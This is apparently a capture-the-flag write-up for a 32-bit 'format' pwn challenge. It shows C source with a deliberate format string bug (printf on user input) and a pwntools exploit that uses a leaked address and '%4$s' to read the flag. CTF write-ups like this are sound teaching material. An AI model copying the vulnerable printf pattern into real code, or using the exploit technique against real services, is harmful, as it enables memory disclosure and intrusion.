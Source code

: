 ```yaml
---

title: Format pcc.nccs_final 2022

author: megachar0x01

date: 2022-08-08

categories: [Pwn, i386, ctf]

---
```


### Purpose : Get The Flag



Checking binary security measures.


<img src="https://i.imgur.com/bMNUHIG.png" alt="img_1">

    
  
Source Code is given. Reading through it we can see that flag is loaded and saved to the flag variable on the stack.Pointer to flag variable is given to us. Later it takes input that is vulnerable to format string. We have to just pass the pointer of flag char given by us and use "%s" to print it


```c

#include <stdio.h>
#include <string.h>

int main(int argc, char* argv) {

        setbuf(stdout, NULL);
        setbuf(stdin, NULL);

        FILE* fptr = fopen("flag.txt", "r");
        char flag[50];

        if (fptr == NULL) {
                printf("\nError reading flag from the file. Please contact TheFlash2k...\n>
                exit(-1);
        }
        fscanf(fptr, "%s", flag);
        fclose(fptr);

        printf("Address of Flag: %x\n", &flag);

        const int SIZE = 50;
        char name[SIZE];
        bzero(name, 0x00);
        printf("Please enter your name: ");
        fgets(name, SIZE, stdin);
        printf("Welcome, %s\n", name);
        printf("Here's some messages that were left for you: ");
        printf(name);
        printf("\n");

        return 0;
}


```

Now it's time to exploit this binary. 

```python
#!/usr/bin/python3
from pwn import *
import struct

def start(argv=[], *a, **kw):
    if args.GDB:  
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE: 
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else: 
        return process([exe] + argv, *a, **kw)


exe = './format'; elf = context.binary = ELF(exe, checksec=False);

io = start()
io.recvuntil(b": ")
leak_add = int(io.recvline().strip(b"\n"),16)
payload = b""
payload += p32(leak_add)
payload += b"%4$s"
io.sendlineafter(b"Please enter your name:",payload)
io.recvuntil(b"you: ")
print(io.recvline().strip(b"\n")[4:])
io.close()

```
<img src="https://i.imgur.com/rzjYzYe.png" alt="img_1">
